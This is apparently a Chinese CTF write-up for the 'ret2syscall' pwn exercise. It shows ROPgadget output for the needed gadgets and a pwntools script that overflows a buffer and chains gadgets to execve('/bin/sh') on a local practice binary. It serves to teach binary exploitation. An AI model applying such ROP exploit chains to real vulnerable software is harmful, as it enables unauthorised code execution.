


# ret2syscall

检查程序保护



反汇编如下



没有system()，无法栈执行，先找一下有没有足够的gadgets构造一个系统调用

其中，该程序是 32 位，所以我们需要使得

- 系统调用号，即 eax 应该为 0xb
- 第一个参数，即 ebx 应该指向 /bin/sh 的地址
- 第二个参数，即 ecx 应该为 0
- 第三个参数，即 edx 应该为 0


调用号eax：

```shell
ROPgadget --binary ret2syscall --only 'pop|ret' | grep  'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
√0x080bb196 : pop eax ; ret	
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

第一个参数ebx

```shell
ROPgadget --binary ret2syscall --only 'pop|ret' | grep -E 'ebx|ecx|edx'
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x08048547 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
√0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```

0x0806eb90 这个地址上可以一次构造三个寄存器的值


接着查找/bin/sh的地址

```shell
ROPgadget --binary ret2syscall --string '/bin/sh'
Strings information
============================================================
0x080be408 : /bin/sh
```


最后是系统调用，在X86架构下，int 0x80 与sysenter都可以系统调用

```shell
ROPgadget --binary ret2syscall --only 'int'
Gadgets information
============================================================
0x08049421 : int 0x80

Unique gadgets found: 1
```


最后开始构造exp

```python
from pwn import*

sh = process('./ret2syscall')

popeax_ret = 0x080bb196
popedxecxebx_ret = 0x0806eb90
binsh = 0x080be408
int_0x80 = 0x08049421

payload = flat([b'a'*112,0x080bb196,0xb,0x0806eb90,0x00,0x00,binsh,int_0x80])

sh.sendline(payload)
sh.interactive()
```

